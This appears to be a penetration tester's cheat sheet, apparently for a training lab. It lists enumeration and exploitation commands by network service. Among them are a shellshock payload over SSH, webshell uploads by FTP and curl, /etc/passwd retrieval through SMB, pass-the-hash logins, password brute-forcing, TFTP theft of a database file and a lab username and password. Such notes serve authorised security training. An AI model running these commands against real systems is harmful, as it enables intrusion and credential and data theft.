 Enumeration

##########################################################################
##				METHODOLOGY			##
##########################################################################
1. Enumerate all open ports and services. 
2. Interact with services to detect service version.
3. Use searchsploit to find exploit available for service version detected.
4. Triage list of exploits/services on basis of priority/likelihood.
5. Test if exploit will be successful; do not spend too much time to avoid rabbit holes.
6. If exploit works, continue. If exploit fails, re-evaluate exploit and triage accordingly.

## ENUMERATION TIPS: 
# 	Google every service + exploit + OS build version if available
# 	Probe unknown ports and explore high-value targets--especially HTTP services
# 	Run Nmap NSE scripts against non-HTTP services during enumeration
# 	Check ping <IP> before anything more advanced then sudo tcpdump -i tun0 icmp

##########################################################################
##	ENUMERATION & EXPLOITATION						##
##########################################################################
// HOST IDENTIFICATION/PING SWEEP
nmap -sn -v0 10.11.1.1-254 | grep "scan report for" | grep -v 'down' | awk -F' ' '{print $5}'
nmap -sn -v0 10.11.1.1-254 -oG hosts.lst; grep Up hosts.lst | cut -d' ' -f2 | sort -V -o hosts.lst
sort -t . -k 3,3n -k 4,4n hosts.lst -o hosts.lst

// PORT SCANS
nmap --min-rate=1000 --max-retries=0 -sT -sU -4 <IP> -Pn > portscan
masscan -p1-65535,U:1-65535 <IP> --rate=1000 -e tun0
nmap -sT -sU <IP> -p <OPEN PORTS> -sV -sC -O -Pn > services
nmap -sT -sU <IP> -p <PORTS> --script=vuln -Pn > vulns
host=<IP>; for port in {1..65535}; do timeout .1 bash -c "echo >/dev/tcp/$host/$port" && echo "port $port is open"; done; echo "Done!"
autorecon <IP> 

// UNKNOWN SERVICE ENUMERATOR
nc -nvC <IP> <PORT>
telnet <IP> <PORT>

// FTP (:21/tcp) - PROBING & EXPLOITATION
# Authenticate as user 'anonymous' and password 'null'
# Use 'bin' to put binary, ASCII for text
ftp <IP>
passive
dir ../ #traversal
bin
put shell.php
get /etc/passwd
nmap -p21 -sVC <IP>
nmap -p21 --script ftp-brute <IP>


//DOMAIN 53

nslookup 
server IP
1)localhost
2)IP
3) guess

dnsrecon -r 127.0.0.0/24 
dnsrecon -r subnet/24
dig axfr @IP



 // SSH (:22/tcp) - PROBING & EXPLOITATION
	ssh <IP> -p <PORT>
	nc -nc <IP> 22
	telnet <IP> 22
	nmap -sVC <IP> -p22
	searchsploit SSH version  # check shellshock
	ssh -i noob noob@ip '() { :;}; /bin/bash'

// TELNET (:23/tcp) - PROBING & EXPLOITATION
telnet -l <user> <IP> 23
nmap -sVC -p23 <ip>
finger-user-enum.pl <OPTIONS> -u <USER> -t <IP>
finger-user-enum.pl <OPTIONS> -U USERS.txt -T HOSTS.txt

// SMTP (:25/tcp) - PROBING & EXPLOITATION
	nc -nvC <IP> 25
	VRFY root
	HELO <user>@<domain>.com
	listusers
	setpassword <USER> <PASSWORD>
	nmap -p25 --script smtp-vuln* <IP>
nmap -p25 --script smtp-enum-users <IP>
smtp-user-enum -M VRFY -U list.txt -t <IP>
smtp-user-enum -M RCPT -U /usr/share/wordlists/metasploit/unix_users.txt -t <IP>
smtp-user-enum -M EXPN -u unix_users.txt -t <IP>
smtp-user-enum -M EXPN -D <domain.com> -U unix_users.txt -t <IP>
finger -p "<USER>"
swaks --to <USER>@<DOMAIN>.local --from "<USER>@<DOMAIN>.local" --header "Subject: Status" --body body.txt --attach status.pdf --server <IP> --port 25 --auth LOGIN --auth-user "<USER>@<DOMAIN>.local" --auth-password <PASSWORD>

// TFTP (:69/udp) - EXFILTRATION
atftp -g -l MASTER.mdf  -r "C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\Backup\master.mdf" 10.11.1.111
tftp <IP> 

// POP3 (:110/tcp) - PROBING & EXPLOITATION
nc -nvC <IP> 110
	USER <USER>
	PASS <PASSWORD>
	LIST
	RETR <#>
nmap -p110 --script pop3-capabilities <IP>
nmap -p110 --script pop3-brute <IP>

// SNMP (:161/udp)- PROBING
snmpwalk -c public -v1 -t 10 10.11.1.115
snmp-check -c public -v1 10.11.1.115
snmpenum -c public -v1 <IP> 1
snmpenum -t <IP>
onesixtyone -c private -i 10.11.1.115
metasploit use auxiliary/scanner/snmp/snmp_enum

// RDP (:3389/tcp) - PROBING & EXPLOITATION:
rdesktop <IP> -u <user> -p <password> -5 -K -r clipboard:CLIPBOARD -g 90% -r disk:E:=/tmp
xfreerdp /u:<USER> /p:<PASSWORD> /v:<IP> 
xfreerdp /u:<USER> /pth:<NTLM> /v:<IP> 

// WINRM (:5985/tcp)
evil-winrm -i 10.11.1.221 -u john -p easyas123

// SMB & NETBIOS (:139/tcp|:445/tcp) - PROBING & EXPLOITATION
nmap -p139,445 --script smb-vuln* <IP>
smbver.sh <IP> <PORT>
ngrep -i -d <INTERFACE> 's.?a.?m.?b.?a.*[[:digit:]]' &
nmblookup -A <IP> 										
enum4linux -a <IP>
nbtscan <IP>
smbmap -H <IP>
smbmap -u null -p "" -H 1<I{> -P <PORT> -R 2>&1
smbmap -d <DOMAIN> -u <USER> -p <PASSWORD> -H <IP>
smbmap -R <FOLDERNAME> -H <IP>
smbmap -u <USER> -p '<PASSWORD>' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H <IP> 	# RCE
echo exit | smbclient -L \\\\<IP>
smbclient -L <IP>
smbclient //<IP>/tmp
smbclient \\<IP>\IPC$ -U john
smbclient //MOUNT/ahare -l target -N
smbclient \\\\<IP>\\\\<SHARE>
smbclient -L -N -I <IP>
smbclient \\\\<IP>\\\<SHARE> --port=<PORT> --user=<USER> # e.g., guest, etc.
./smbclient //10.11.1.136/'Bob Share' -N 
	symlink / rootfs
smbclient //10.11.1.136/'Bob Share' -c 'lcd /home/kali/Desktop/; cd /rootfs/etc; get passwd' -N
smbclient //10.11.1.231/docs -c 'lcd /home/kali/Desktop/; cd /postfix; get changelog.Debian.gz' -N
smbclient //10.11.1.146/SusieShare -c 'lcd /home/kali/Desktop/shell.exe; put libpoc.so' -N
smbclient -N //10.11.1.231/docs
crackmapexec smb <IP>
crackmapexec smb <IP> -u <USER> -p <PASS> --shares 
psexec.py administrator@10.11.1.220
smbexec.py <USER>@<IP> -hashes <NTLM>
pth-winexe -U <USER>%<NTLM>:<NTLM> 
pth-winexe -U <USER> //<IP> cmd
impacket-wmiexec <USER>@<IP> -hashes <NTLM>:<NTLM>
impacket-wmiexec <DOMAIN>/<USER>:<NTLM>@<IP>
impacket-smbserver share /home/kali
impacket-smbserver share ~/Desktop
winexe -U <USER> //<IP> "cmd.exe" --system

// NFS (:111/tcp|:2049/tcp|:20048/tcp) - PROBING & EXPLOITATION
nmap -sV --script=nfs-showmount <IP>
df -k
mount -t nfs <IP>:/srv/Share /tmp/share
mount -t cifs -o username=<USER>,vers=1.0 //10.11.1.5/c$ /mnt
mount -o nolock 10.11.1.72:/home /mnt/nfs-share
mount -t cifs -o vers=1.0 //10.11.1.136/'Bob Share' /mnt/SUFFERANCE

// RPCBIND(:111/tcp) & MSRPC (:135/tcp) - PROBING & EXPLOITATION
rpcinfo -p <IP>
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall
rpcinfo -s <IP>
rpcinfo -p <IP>
rpcclient -U "" -N <IP>
rpcclient -U "john" 10.11.1.221
rpcclient -U "" -N <IP> --command=enumprivs -N <IP>
showmount -a <IP>
showmount -e <IP>
showmount -d <IP>

// HTTP (:80/tcp|:443/tcp) - PROBING & EXPLOITATION
# /usr/share/dirb/wordlists/common.txt
# /usr/share/seclists/Discovery/Web-Content/common.txt
# /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
# /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt
curl http://<IP>:<PORT>/robots.txt
curl http://<IP>:<PORT>/sitemap.xml
dirsearch -r -f http://<IP>:<PORT> --extensions=htm,html,asp,aspx,txt,php,jsp,js,cgi w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --request-by-hostname -t 40 > dirsearch
gobuster dir -k -u http://<IP>:<PORT> -x "htm,html,asp,aspx,txt,php,jsp,js,cgi" -w /usr/share/seclists/Discovery/Web-Content/common.txt -e -l -s "200,204,301,302,307" -o gobusted
nikto -host http://<IP>:<PORT> -C all -maxtime=30s -o nikto.txt
view-source:http://10.11.1.223/index.php?page=posts&post_id=69&com_status=open
curl 127.0.0.1:8080/manager/shell.jsp
curl -F "files=@shell.php" http://10.11.1.123/books/apps/jQuery-File-Upload/server/php/index.php
http://10.11.1.123/books/apps/jquery-file-upload/server/php/files/shell.php?cmd=shell.exe
https://beautifier.io/
wpscan --url 10.11.1.234 -v --detection-mode aggressive --enumerate ap,at,cb,dbe,u --api-token <MYTOKEN> --password-attack wp-login > wpscan
wpscan --url http://10.11.1.251/wp/ --wp-content-dir 10.11.1.251/wp/wp-content/ -v --enumerate ap,at,cb,dbe,u --password-attack wp-login > wpscan
whatweb <IP>
davest <IP>
nmap -p80 -sVC <IP>
nmap -p80 --script http-vuln* <IP>



